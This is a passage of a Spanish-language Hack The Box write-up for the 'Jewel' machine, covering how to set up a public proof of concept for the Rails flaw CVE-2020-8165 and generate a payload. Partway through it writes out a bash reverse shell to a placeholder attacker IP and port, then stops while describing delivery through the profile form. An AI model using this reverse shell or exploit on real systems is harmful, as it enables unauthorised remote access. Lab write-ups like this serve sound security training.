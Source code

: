 ![Jewel 08]({{ site.baseurl }}/images/jewelhtb08.png)

Entre las diferentes vulnerabilidades existentes nos vamos a quedar con la CVE-2020-8165 que nos proporciona un Remote Code Execution (RCE):

![Jewel 09]({{ site.baseurl }}/images/jewelhtb09.png)

Si buscamos sobre esta vulnerabilidad encontraremos un [repositorio de GitHub](https://github.com/masahiro331/CVE-2020-8165) donde se explota, por lo que vamos a seguirlo. 

Del código vamos a modificar un par de cosas del Gemfile. Una será la versión de Ruby, que indicaremos la versión que nosotros tenemos instalado (se puede ver con “ruby -v”). Y otra será completar la línea de gem ‘sqlite3’ para evitar errores al cargar esta herramienta.

![Jewel 10]({{ site.baseurl }}/images/jewelhtb10.png)

Ahora continuamos con las instrucciones del GitHub. Primero con:

    bundle install --path vendor/bundle

Si tenemos problemas con esta instrucción quizás debamos instalar la versión de bundler correspondiente, que se haría de la siguiente manera:
    
    sudo gem install bundler:1.17.3

Y también algunos elementos como libsqlite3-dev:

    sudo apt install libsqlite3-dev

Si todo sale bien deberemos obtener un resultado final como este:

![Jewel 11]({{ site.baseurl }}/images/jewelhtb11.png)

Y seguimos con la siguiente instrucción:

    bundle exec rails db:migrate

![Jewel 12]({{ site.baseurl }}/images/jewelhtb12.png)

Ahora pasamos a la sección del exploit y arrancamos la consola con:

    bundle exec rails console

Y seguimos con el resto de instrucciones modificando el código que vamos a ejecutar remotamente por una shell reversa de la siguiente forma:

    code = '`/bin/bash -c “bash -i >& /dev/tcp/IP_ATACANTE/PUERTO 0>&1”`'

Esto nos devolverá el payload que debemos utilizar:

![Jewel 13]({{ site.baseurl }}/images/jewelhtb13.png)

Para hacer uso de ello primero tenemos que ir a la página web (jewel.htb:8080) y registrarnos. Una vez registrados nos logueamos con el email y la contraseña que acabamos de crear. Una vez dentro nos vamos a nuestro perfil (Profile) y le damos al botón “Profile” para editar nuestros datos de usuario. Como podemos observar en el código de la web la edición se realiza a través de un método POST:

![Jewel 14]({{ site.baseurl }}/images/jewelhtb14.png)
